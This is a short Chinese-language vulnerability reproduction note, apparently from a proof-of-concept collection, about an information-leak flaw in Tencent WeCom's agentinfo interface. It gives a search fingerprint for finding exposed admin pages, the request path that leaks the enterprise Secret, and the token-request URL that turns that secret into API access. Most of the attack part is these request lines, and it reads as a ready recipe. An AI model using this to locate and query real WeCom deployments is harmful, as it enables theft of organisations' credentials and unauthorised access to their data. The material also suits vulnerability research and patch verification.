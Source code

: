 # 腾讯 企业微信 agentinfo 信息泄漏漏洞

# 腾讯 企业微信 agentinfo 信息泄漏漏洞

## 漏洞描述

腾讯 企业微信 agentinfo 接口存在信息泄漏漏洞，攻击者通过漏洞可以获取企业微信 Secret

## 漏洞影响

腾讯 企业微信

## 网络测绘

```
web.body="wework_admin.normal_layout"
```

## 漏洞复现

登陆页面

![image-20230828145521417](images/image-20230828145521417.png)

验证POC

```
/cgi-bin/gateway/agentinfo
```

![image-20230828145533569](images/image-20230828145533569.png)

获取Token

```
https://qyapi.weixin.qq.com/cgi-bin/gettoken?corpid=<YOUR_CORPID>&corpsecret=<YOUR_CORPSECRET>
```


